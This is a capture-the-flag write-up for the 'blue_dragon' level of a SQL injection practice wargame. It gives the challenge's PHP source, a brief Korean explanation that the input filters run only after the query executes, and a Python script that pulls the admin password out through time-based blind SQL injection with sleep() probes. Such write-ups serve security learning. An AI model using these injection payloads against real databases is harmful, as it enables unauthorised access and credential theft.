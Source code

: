 ## Blue_dragon
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```
### exploit
이전 문제들과 비슷한 유형이다. 하지만 쿼리를 질의하고 나서 필터링을 하기 때문에 Timebased SQL 취약점이 발생한다.<br>
sleep함수를 사용해서 preg_match가 실행되기 전에 지연시킨다.
```python
import requests
import time

url = "https://los.rubiya.kr/chall/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php"

cookie = {'PHPSESSID' : 'cookie 값'}

for i in range(100):
    print(i)
    start = time.time()
    param = {'pw': f"' or if(id='admin' and length(pw)={i},sleep(2),0)-- -"}
    res = requests.get(url=url, params=param, cookies=cookie)
    end = time.time()
    if end - start >= 2:
        print(i)
        break

length = 8
password = ''
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    start = time.time()
    param = {'pw': f"' or id='admin' and if(ord(substr(pw,{str(len)},1))={str(pw)},sleep(3),0)#"}
    res = requests.get(url=url, params=param, cookies=cookie)
    end = time.time()
    if end - start >= 2:
      password += chr(pw)
      print(password)
      break
```
<br>
